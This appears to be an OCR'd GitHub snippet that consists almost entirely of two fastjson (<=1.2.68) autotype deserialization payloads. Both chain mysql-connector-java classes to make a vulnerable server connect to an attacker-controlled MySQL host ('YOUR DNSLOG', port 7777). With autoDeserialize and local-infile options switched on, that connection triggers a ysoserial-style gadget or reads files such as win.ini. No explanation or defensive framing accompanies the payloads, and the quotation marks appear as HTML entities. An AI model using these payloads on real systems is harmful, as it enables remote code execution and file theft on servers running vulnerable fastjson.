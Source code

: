   
fastjson<=1.2.68，mysql-connector-java-8.0.19可反序列化，>8.0.19可SSRF  
  

```
{
    &#34;@type&#34;: &#34;java.lang.AutoCloseable&#34;,
    &#34;@type&#34;: &#34;com.mysql.cj.jdbc.ha.ReplicationMySQLConnection&#34;,
    &#34;proxy&#34;: {
        &#34;@type&#34;: &#34;com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy&#34;,
        &#34;connectionUrl&#34;: {
            &#34;@type&#34;: &#34;com.mysql.cj.conf.url.ReplicationConnectionUrl&#34;,
            &#34;masters&#34;: [{
                &#34;host&#34;: &#34;&#34;
            }],
            &#34;slaves&#34;: [],
            &#34;properties&#34;: {
                &#34;host&#34;: &#34;YOUR DNSLOG&#34;,
                &#34;user&#34;: &#34;yso_xxx_calc&#34;,
                &#34;dbname&#34;: &#34;dbname&#34;,
                &#34;password&#34;: &#34;pass&#34;,
                &#34;queryInterceptors&#34;: &#34;com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&#34;,
                &#34;autoDeserialize&#34;: &#34;true&#34;
            }
        }
    }
}
```


```
{
&#34;@type&#34;: &#34;java.lang.AutoCloseable&#34;,
&#34;@type&#34;: &#34;com.mysql.cj.jdbc.ha.ReplicationMySQLConnection&#34;,
  &#34;proxy&#34;: {
    &#34;@type&#34;: &#34;com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy&#34;,
    &#34;connectionUrl&#34;: {
      &#34;@type&#34;: &#34;com.mysql.cj.conf.url.ReplicationConnectionUrl&#34;,
      &#34;masters&#34;: [
        {
          &#34;host&#34;: &#34;&#34;
        }
      ],
      &#34;properties&#34;: {
        &#34;allowUrlInlocalInfile&#34;: &#34;true&#34;,
        &#34;allowLoadLocalInfile&#34;: &#34;true&#34;,
        &#34;autoDeserialize&#34;: &#34;true&#34;,
        &#34;dbname&#34;: &#34;dbname&#34;,
        &#34;host&#34;: &#34;YOUR_DNSLOG&#34;,
        &#34;password&#34;: &#34;pass&#34;,
        &#34;port&#34;: &#34;7777&#34;,
        &#34;queryInterceptors&#34;: &#34;com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&#34;,
        &#34;user&#34;: &#34;win_ini&#34;
      },
      &#34;slaves&#34;: []
    }
  }
}
```
